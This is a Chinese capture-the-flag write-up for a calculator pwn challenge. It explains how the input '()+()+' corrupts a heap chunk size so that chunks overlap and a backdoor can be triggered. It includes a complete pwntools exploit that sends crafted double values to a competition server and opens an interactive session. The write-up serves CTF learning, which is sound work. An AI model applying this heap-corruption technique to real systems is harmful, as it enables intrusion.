

# 卡死欧计算器 

> 李明写的一个简单的表达式计算器，输入诸如`2*(3+4)^5`的式子回车即可进行计算  
> 就是有时候不太好使不知道为啥就死机了
>> 李明发现的可以让计算器卡死的最小复现：  
>> `()+()+1`  
>> `报错： double free or corruption (out)`

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |no    |

## 解题思路

通过给的提示不难发现，程序将`1.0`这一double值写在了堆块尺寸上，导致了free时的异常，
由此，我们得到了修改堆块尺寸的原语，如果能造成堆块重叠，就能将数字从`num_stack`溢出写到`op_stack`，
使得原本无法输入的#字符出现在`op_stack`上，实现运行后门，具体解释如图所示



有以下几点可以再解释：
1. 分配堆块大小由token数决定，由于token由数字和操作构成，故一般情况下不能利用
2. 要想获得"0x91"的double值，需使用"0x60"的字面量，看起来有精度损失
3. 需要用`1+(`的方式来将数字push到栈上，直接运算就无法溢出了
4. `()+()+`会导致将数字写入到`num_stack[top]`，而top已经变成-1了，对应堆块的size

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']

def payload(lo:int):
    global sh
    if lo:
        sh = process('./kasio')
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('competition.blue-whale.me', 20128)
    magic = '4.7430302000759668e-322' # 0x60 -> 0x91
    sharp = '2.0087766792234922e-139' # '########'

    sh.sendlineafter(b'input', b'1+1+1')                    # 0x31, 0x21
    sh.sendlineafter(b'input', b'1+1+1+1')                  # 0x31(free), 0x21, 0x41
    sh.sendlineafter(b'input', f'()+()+{magic}'.encode())   # 0x31 -> 0x91, 0x21, 0x41(free)
    sh.sendlineafter(b'input', f'1+(2+(3+(4+(5+({sharp})))))'.encode())

    sh.clean()
    sh.interactive()
    sh.close()
```
